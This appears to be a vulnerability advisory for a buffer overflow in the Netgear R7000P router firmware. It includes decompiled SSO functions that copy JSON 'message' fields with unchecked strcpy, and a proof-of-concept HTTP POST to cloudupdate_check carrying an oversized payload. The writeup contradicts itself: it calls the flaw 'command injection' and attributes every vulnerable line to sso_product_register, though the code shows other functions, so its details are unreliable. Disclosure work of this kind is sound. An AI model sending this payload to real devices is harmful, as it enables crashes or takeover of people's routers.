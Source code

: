 # Buffer Overflow Vulnerability in SSO Functions

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R7000P Router                                        |
| Firmware Version     | V1.3.1.64_10.1.36                                            |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `libacos_shared.so` (`sso_product_register`, `sso_authentication`, `sso_registration`) |
| Prerequisites        | No authentication required; attacker must supply crafted JSON input containing `"message"` fields |

2. Exploitation Path

```c
int __fastcall sso_product_register(int a1, char *s)
{
  ...
  memset(s, 0, 0x98u);
  strcpy(s, "0");
  ...
  if ( v4 )
  {
    ObjectItem = j_cJSON_GetObjectItem(v4, "error");
    if ( ObjectItem )
    {
      ...
      v11 = j_cJSON_GetObjectItem(ObjectItem, "message");
      v12 = v11;
      if ( v11 && *(_DWORD *)(v11 + 12) == 4 )
      {
        sprintf(v22, "[BitDefender] SSO_API_PRODUCTREGISTER message:%s", *(_DWORD *)(v11 + 16));
        v17 = strlen(v22);
        j_ambitWriteLog(v22, v17, 67108903);
        printf("message:[%s]\n", *(_DWORD *)(v12 + 16));
        strcpy(s + 24, *(const char **)(v12 + 16));
      }
      ...
}
    
int __fastcall sso_authentication(const char *a1, char *s)
{
  ...
  memset(s, 0, 0x98u);
  ...
  if ( ObjectItem )
  {
    ...
    v26 = j_cJSON_GetObjectItem(ObjectItem, (int)"message");
    v27 = v26;
    if ( v26 && *(_DWORD *)(v26 + 12) == 4 )
    {
      sprintf(v38, "[BitDefender] SSO_API_AUTHENTICATION message:%s", *(_DWORD *)(v26 + 16));
      v31 = strlen(v38);
      j_ambitWriteLog(v38, v31, 67108903);
      printf("message:[%s]\n", *(_DWORD *)(v27 + 16));
      strcpy(s + 24, *(const char **)(v27 + 16));
    }
    ...
  if ( *(_DWORD *)(v10 + 20) != 200 )
  {
    v32 = j_cJSON_GetObjectItem(v8, (int)"message");
    v33 = v32;
    if ( v32 && *(_DWORD *)(v32 + 12) == 4 )
    {
      printf("message:[%s]\n", *(_DWORD *)(v32 + 16));
      strcpy(s + 24, *(const char **)(v33 + 16));
    }
    ...
}
    
int __fastcall sso_registration(int a1, char *s)
{
  ...
  memset(s, 0, 0x98u);
  strcpy(s, "0");
  ...
  if ( v6 )
  {
    ObjectItem = j_cJSON_GetObjectItem(v6, (int)"error");
    if ( ObjectItem )
    {
      ...
      v33 = j_cJSON_GetObjectItem(ObjectItem, (int)"message");
      v34 = v33;
      if ( v33 && *(_DWORD *)(v33 + 12) == 4 )
      {
        sprintf(v44, "[BitDefender] SSO_API_REGISTRATION message:%s", *(_DWORD *)(v33 + 16));
        v39 = strlen(v44);
        j_ambitWriteLog(v44, v39, 67108903);
        printf("message:[%s]\n", *(_DWORD *)(v34 + 16));
        strcpy(s + 24, *(const char **)(v34 + 16));
      }
      ...
    }
    else
    {
      v9 = j_cJSON_GetObjectItem(v7, (int)"meta");
      v10 = v9;
      if ( v9 )
      {
        v11 = j_cJSON_GetObjectItem(v9, (int)"message");
        v12 = v11;
        if ( v11 && *(_DWORD *)(v11 + 12) == 4 )
        {
          printf("message:[%s]\n", *(_DWORD *)(v11 + 16));
          strcpy(s + 24, *(const char **)(v12 + 16));
        }
        ...
}
```

3. **Vulnerable Binaries:** `cloudupdate_check`.

4. 0-Day Command Injection Exploitation Path:

   - In function `sso_product_register`, line 13 executes `v11 = j_cJSON_GetObjectItem(ObjectItem, "message")`. No length validation is performed, and the data is directly copied at line 21 via `strcpy(s + 24, *(const char **)(v12 + 16))`, resulting in a buffer overflow vulnerability.

   - In function `sso_product_register`, line 34 executes `v26 = j_cJSON_GetObjectItem(ObjectItem, (int)"message")`. No length validation is performed, and the data is directly copied at line 42 via `strcpy(s + 24, *(const char **)(v27 + 16))`, resulting in a buffer overflow vulnerability.

   - In function `sso_product_register`, line 47 executes `v32 = j_cJSON_GetObjectItem(v8, (int)"message")`. No length validation is performed, and the data is directly copied at line 52 via `strcpy(s + 24, *(const char **)(v33 + 16))`, resulting in a buffer overflow vulnerability.

   - In function `sso_product_register`, line 69 executes `v33 = j_cJSON_GetObjectItem(ObjectItem, (int)"message")`. No length validation is performed, and the data is directly copied at line 77 via `strcpy(s + 24, *(const char **)(v34 + 16))`, resulting in a buffer overflow vulnerability.

   - In function `sso_product_register`, line 87 executes `v11 = j_cJSON_GetObjectItem(v9, (int)"message")`. No length validation is performed, and the data is directly copied at line 92 via `strcpy(s + 24, *(const char **)(v12 + 16))`, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/cloudupdate_check HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
Content-Length: 300
Connection: close

{
  "error": {
    "message": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
  }
}
```